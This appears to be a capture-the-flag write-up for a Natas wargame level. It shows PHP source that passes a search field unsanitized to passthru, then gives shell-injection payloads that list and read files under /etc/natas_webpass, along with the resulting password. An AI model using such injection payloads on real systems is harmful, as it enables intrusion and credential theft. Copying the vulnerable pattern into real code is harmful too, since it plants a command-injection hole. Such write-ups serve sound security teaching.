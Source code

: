 ```html
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

Exploit the use of unsanitized [`passthru`](https://www.php.net/manual/en/function.passthru.php):

`; find /etc/ natas10; echo`
```
...
/etc/natas_webpass/natas29
/etc/natas_webpass/natas10
/etc/natas_webpass/natas16
...
dictionary.txt
```

`; cat /etc/natas_webpass/natas10; echo`
```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
dictionary.txt
```
